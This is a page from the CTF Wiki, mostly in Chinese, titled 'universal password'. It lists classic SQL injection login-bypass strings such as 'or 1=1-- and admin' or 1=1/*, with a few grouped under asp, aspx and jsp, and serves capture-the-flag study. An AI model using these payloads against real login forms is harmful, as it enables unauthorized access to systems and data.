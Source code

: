 # 万能密码
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



只是这么个叫法而已


作用只能说是普普通通。


```plain
'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1-- asp aspx "or "a"="a
'.).or.('.a.'='.a
or 1=1--
'or 1=1--
a'or' 1=1--
"or 1=1--
'or.'a.'='a
"or"="a'='a
'or''='
or'='or' jsp 1'or'1'='1
admin' or 1=1/*
Plain Text
```





